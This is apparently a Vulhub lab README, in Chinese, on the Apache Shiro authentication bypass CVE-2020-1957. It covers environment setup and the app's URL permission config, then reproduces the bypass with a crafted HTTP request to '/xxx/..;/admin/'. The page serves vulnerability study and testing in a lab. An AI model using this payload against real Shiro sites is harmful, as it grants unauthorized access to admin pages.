


# Apache Shiro 认证绕过漏洞 CVE-2020-1957

## 漏洞描述

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

在Apache Shiro 1.5.2以前的版本中，在使用Spring动态控制器时，攻击者通过构造`..;`这样的跳转，可以绕过Shiro中对目录的权限限制。

参考链接：

- https://github.com/apache/shiro/commit/3708d7907016bf2fa12691dff6ff0def1249b8ce#diff-98f7bc5c0391389e56531f8b3754081aL139
- https://xz.aliyun.com/t/8281
- https://blog.spoock.com/2020/05/09/cve-2020-1957/

## 环境搭建

Vulhub执行如下命令启动一个搭载Spring 2.2.2与Shiro 1.5.1的应用：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看首页。

这个应用中对URL权限的配置如下：

```
@Bean
public ShiroFilterChainDefinition shiroFilterChainDefinition() {
    DefaultShiroFilterChainDefinition chainDefinition = new DefaultShiroFilterChainDefinition();
    chainDefinition.addPathDefinition("/login.html", "authc"); // need to accept POSTs from the login form
    chainDefinition.addPathDefinition("/logout", "logout");
    chainDefinition.addPathDefinition("/admin/**", "authc");
    return chainDefinition;
}
```

## 漏洞复现

直接请求管理页面`/admin/`，无法访问，将会被重定向到登录页面：

```
GET /admin HTTP/1.1
Host: your-vps-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



构造恶意请求`/xxx/..;/admin/`，即可绕过权限校验，访问到管理页面：

```
GET /xxx/..;/admin/ HTTP/1.1
Host: your-vps-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```




